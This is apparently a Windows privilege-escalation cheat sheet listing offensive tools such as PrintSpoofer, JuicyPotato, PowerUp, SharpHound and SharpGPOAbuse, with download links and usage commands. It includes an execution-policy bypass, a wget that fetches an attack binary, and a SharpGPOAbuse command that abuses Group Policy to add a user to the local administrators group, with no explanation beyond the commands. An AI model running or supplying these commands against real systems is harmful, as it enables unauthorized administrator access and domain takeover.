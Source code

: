 
# Window Privesc

## PrintSpoofer.exe
- Link
```
https://github.com/itm4n/PrintSpoofer
```

## JuicyPotato
- Link
```
https://github.com/ohpe/juicy-potato
```

## Powerup
- Link
```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

powershell -ep bypass
.\PowerUp.ps1
Invoke-PrivescAudit
```

## Powerview
- Link
```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```

## SharpHound
- Link
```
https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1
```

## PowerGPOAbuse
- Link
```
https://github.com/rootSySdk/PowerGPOAbuse
https://raw.githubusercontent.com/rootSySdk/PowerGPOAbuse/master/PowerGPOAbuse.ps1
```
- Usage
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName 'noraj' --Author 'vulnnet\administrator' --Command "powershell.exe /c" --Arguments "net localgroup administrators enterprise-security /add" --GPOName "security-pol-vn"
```

## SharpGPOAbuse
- Link
```
wget https://github.com/byronkg/SharpGPOAbuse/raw/main/SharpGPOAbuse-master/SharpGPOAbuse.exe
```
____________________________________________________________________________________________________________________________________________________________________________________________________________________________
